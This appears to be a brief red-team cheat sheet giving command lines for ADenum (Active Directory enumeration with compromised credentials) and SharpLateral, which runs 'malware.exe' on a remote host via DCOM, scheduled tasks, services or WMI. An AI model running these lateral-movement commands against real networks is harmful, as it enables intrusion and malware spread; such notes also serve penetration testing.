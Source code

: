 # ADENUM
https://github.com/SecuProject/ADenum
```bash
python3 ADenum.py -d corp.com -u userpwnd -p passwordpwnd -j
```

-----------------------
# ADENUM
https://github.com/mertdas/SharpLateral
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
SharpLateral schedule HOSTNAME C:\Users\Administrator\Desktop\malware.exe TaskName
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe
```

-----------------------
